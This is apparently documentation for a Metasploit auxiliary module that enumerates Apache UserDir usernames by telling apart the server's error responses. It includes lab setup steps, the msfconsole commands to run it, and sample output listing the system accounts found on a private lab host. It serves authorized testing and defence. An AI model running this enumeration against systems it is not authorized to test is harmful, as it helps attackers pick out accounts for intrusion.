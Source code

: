 ## Vulnerable Application

This module determines if usernames are valid on a server running Apache with the `UserDir` directive enabled. 
It takes advantage of Apache returning different error codes for usernames that do not exist and for usernames
that exist but have no `public_html` directory.

### Enabling  `UserDir` on Ubuntu 16.04 with Apache installed
1. `sudo a2enmod userdir`
2. `sudo service apache2 restart`

## Verification Steps

1. Do: ```use auxiliary/scanner/http/apache_userdir_enum```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Scenarios

### Apache 2.4.18 on Ubuntu 16.04

![apache_userdir_enum Demo](https://i.imgur.com/UZanfTI.gif)

```
msf > use auxiliary/scanner/http/apache_userdir_enum
msf auxiliary(scanner/http/apache_userdir_enum) > set rhosts alderaan
rhosts => alderaan
msf auxiliary(scanner/http/apache_userdir_enum) > run

[*] http://192.168.6.172/~ - Trying UserDir: ''
[*] http://192.168.6.172/ - Apache UserDir: '' not found
[*] http://192.168.6.172/~4Dgifts - Trying UserDir: '4Dgifts'
[*] http://192.168.6.172/ - Apache UserDir: '4Dgifts' not found
...
[*] http://192.168.6.172/~zabbix - Trying UserDir: 'zabbix'
[*] http://192.168.6.172/ - Apache UserDir: 'zabbix' not found
[*] http://192.168.6.172/~vagrant - Trying UserDir: 'vagrant'
[*] http://192.168.6.172/ - Apache UserDir: 'vagrant' not found
[+] http://192.168.6.172/ - Users found: backup, bin, daemon, games, gnats, irc, list, lp, mail, man, messagebus, news, nobody, proxy, sshd, sync, sys, syslog, uucp
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
